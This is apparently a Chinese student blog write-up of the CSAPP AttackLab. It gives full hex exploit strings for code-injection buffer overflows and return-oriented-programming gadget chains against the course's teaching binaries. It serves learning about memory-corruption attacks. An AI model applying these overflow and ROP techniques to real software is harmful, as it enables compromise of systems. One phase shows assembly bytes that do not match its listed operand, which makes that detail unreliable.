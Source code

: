 ```yaml
---
title: 深入理解计算机系统 AttackLab
top: false
cover: false
img: 'http://q9apk9x38.bkt.clouddn.com/medias/featureimages/csapp_b.jpg'
toc: true
mathjax: true
date: 2020-05-09 16:24:53
password:
summary: CSAPP AttackLab实验报告
tags:
    - CSAPP
    - LAB
categories:
    - 计算机基础
---
```


# CSAPP BombLab实验报告

## 前言

- 这个实验环境准备就搞了好久/(ㄒoㄒ)/~~  
- 一开始发现原来的WSL跑不了ctarget，报  
    > Couldn't map stack to segment at 0x55586000
- 搬到虚拟机下的CentOS，GDB跑不起来，报缺少glibc，尝试多次没法解决
- 最后换到服务器上的Ubuntu终于没问题了
- AttackLab是BufferLab的64位版本，包括了BufferLab的代码注入攻击(CI)增加了新的面向返回编程攻击(ROP)
- BufferLab需要IA32的知识，以后看了 [WebAside ASM:IA32](http://csapp.cs.cmu.edu/3e/waside/waside-ia32.pdf) 再做
- 实验之前先通过objdump把ctarget、rtarget的反汇编以及符号表导出来

## Phase 1

- 通过缓冲区溢出把返回地址就改为touch1的入口地址就可以了
- 通过反汇编可知getbuf分配的 BUFFER_SIZE 是0x28也就是40个字节

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
c0 17 40 00 00 00 00 00 /* 0x5561dca0: 更改返回地址touch1的入口地址 */
```

## Phase 2

- 通过缓冲区溢出把返回地址就改为栈上的地址
- 把需要注入的代码通过gcc -c 编译成.o文件
- 再通过objdump -d 反汇编即可得到对应的机器表示
- 博主出现过一个很令人崩溃的Bug，立即数的$忘记写了，变成了绝对寻址

```x86asm
0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	48 83 c4 10          	add    $0x10,%rsp
   9:	c3                   	retq 
```

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
a8 dc 61 55 00 00 00 00 /* 0x5561dca0: 更改返回地址0x5561dca8 */
bf fa 97 b9 59 48 83 c4 /* 0x5561dca8: 注入汇编指令的机器表示 */
10 c3 00 00 00 00 00 00 /* 0x5561dcb0: 注入汇编指令的机器表示 */
ec 17 40 00 00 00 00 00 /* 0x5561dcb8: touch2的入口地址 */
```

## Phase 3

- 通过缓冲区溢出把返回地址就改为栈上的地址
- 把需要注入的代码通过gcc -c 编译成.o文件
- 再通过objdump -d 反汇编即可得到对应的机器表示
- cookie是作为字符串传入的，注意存放的位置，writeup有相应提示
> When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.
- 博主出现过一个更令人崩溃的Bug，注释内容和注释符号之间漏了一个空格  
    导致hex2raw的parser识别出错，这里在vim下可以用%!xxd看看生成的数据对不对

```x86asm
0000000000000000 <.text>:
   0:	bf c0 dc 61 55       	mov    $0x5561dcc0,%edi
   5:	48 83 c4 10          	add    $0x20,%rsp
   9:	c3                   	retq   
```

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
a8 dc 61 55 00 00 00 00 /* 0x5561dca0: 更改返回地址0x5561dca8 */
bf c0 dc 61 55 48 83 c4 /* 0x5561dca8: 注入汇编指令的机器表示 */
10 c3 00 00 00 00 00 00 /* 0x5561dcb0: 注入汇编指令的机器表示 */
fa 18 40 00 00 00 00 00 /* 0x5561dcb8: touch3的入口地址 */
35 39 62 39 39 37 66 61 /* 0x5561dcc0: sval字符串:cookie 0x59b997fa的字符串表示 */
00 00 00 00 00 00 00 00 /* 0x5561dcc8: sval字符串的结尾00，以及对齐的0 */
```

## Phase 4

- Phase4之后便是ROP攻击，因为栈地址随机化以及栈地址上的数据被设置为不可执行，便产生了这样一种攻击的手法
>  executing existing code, rather than injecting new code.
- 这里就是要找所谓的gadget，将返回地址设置为选定的gadget，代码便会从那开始执行

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
ab 19 40 00 00 00 00 00 /* addval_219+4:0x4019ab 58 90 c3 */
                        /* popq %rax    nop     ret       */ 
fa 97 b9 59 00 00 00 00 /* data:cookie */
c6 19 40 00 00 00 00 00 /* setval_426+3:0x4019c6 89 c7 90 c3 */
                        /* mov %eax,%edi    nop         ret  */
ec 17 40 00 00 00 00 00 /* touch2的入口地址 */
```

## Phase 5

- Phase5实际上是最难的，虽然他只有5分
> You have also gotten 95/100 points for the lab.
That’s a good score. If you have other pressing obligations consider stopping right now.
- 问题的核心在于，栈地址是变动的，只能在运行时读取到真正的栈地址
- 而又没有可利用的add 或者 leaq 之类的指令
- 解决问题的要点在于farm.c中的函数add_xy
- 至于设置add_xy的参数需要的gadget，博主只发现一条执行的路径

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
06 1a 40 00 00 00 00 00 /* 更改返回地址 mov %rsp,%rax */
c5 19 40 00 00 00 00 00 /* 0x00: mov %rax,%rdi */
ab 19 40 00 00 00 00 00 /* 0x08: pop %rax */
48 00 00 00 00 00 00 00 /* 0x10: data:offset */
dd 19 40 00 00 00 00 00 /* 0x18: mov %eax,%edx */
34 1a 40 00 00 00 00 00 /* 0x20: mov %edx,%ecx */
13 1a 40 00 00 00 00 00 /* 0x28: mov %ecx,%esi */
d6 19 40 00 00 00 00 00 /* 0x30: add_xy的入口地址 */
c5 19 40 00 00 00 00 00 /* 0x38: mov %rax,%rdi */
fa 18 40 00 00 00 00 00 /* 0x40: touch3的入口地址 */
35 39 62 39 39 37 66 61 /* 0x48: sval字符串:cookie 0x59b997fa的字符串表示 */
00 00 00 00 00 00 00 00 /* 0x50: sval字符串的结尾00，以及对齐的0 */
```

## 尾声

- 记录了下流水账，以后再说吧